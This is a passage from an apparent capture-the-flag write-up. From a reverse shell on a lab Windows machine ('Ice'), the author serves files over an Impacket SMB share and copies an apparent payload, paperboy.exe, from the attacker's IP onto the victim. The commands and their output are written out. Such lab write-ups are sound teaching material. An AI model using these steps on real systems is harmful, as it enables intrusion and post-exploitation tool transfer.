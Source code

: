 ```

```
sudo python3 smbserver.py PAPERBOY .                                                                                                                                                                                               130 ⨯
Impacket v0.9.24.dev1+20210917.161743.0297480b - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```PAPERBOY``` is the name of the share and the ```.``` represents the present working directory ```(pwd)```.

Now from the reverse shell on Ice we can use ```net view``` to connect to the ```PAPERBOY``` samba share via our attack machines IP:

```
C:\Users\Dark\Downloads>net view \\10.4.18.56 
net view \\10.4.18.56
Shared resources at \\10.4.18.56

(null)

Share name  Type  Used as  Comment  

-------------------------------------------------------------------------------
PAPERBOY    Disk                    
The command completed successfully.
```

```dir``` will list the files in our samba share:

```
C:\Users\Dark\Downloads>dir \\10.4.18.56\PAPERBOY

dir \\10.4.18.56\PAPERBOY

 Volume in drive \\10.4.18.56\PAPERBOY has no label.

 Volume Serial Number is ABCD-EFAA

 Directory of \\10.4.18.56\PAPERBOY

09/23/2021  09:34 AM    <DIR>          .
09/23/2021  09:35 AM    <DIR>          ..
09/23/2021  09:34 AM            73,802 paperboy.exe
09/23/2021  10:32 AM             4,379 smbserver.py
05/04/2014  10:57 AM            55,808 Win64.exe
               3 File(s)        142,181 bytes
               2 Dir(s)  15,207,469,056 bytes free
```

Then we use ```copy``` to transfer the files across:

```
C:\Users\Dark\Downloads>copy \\10.4.18.56\PAPERBOY\paperboy.exe
copy \\10.4.18.56\PAPERBOY\paperboy.exe
        1 file(s) copied.
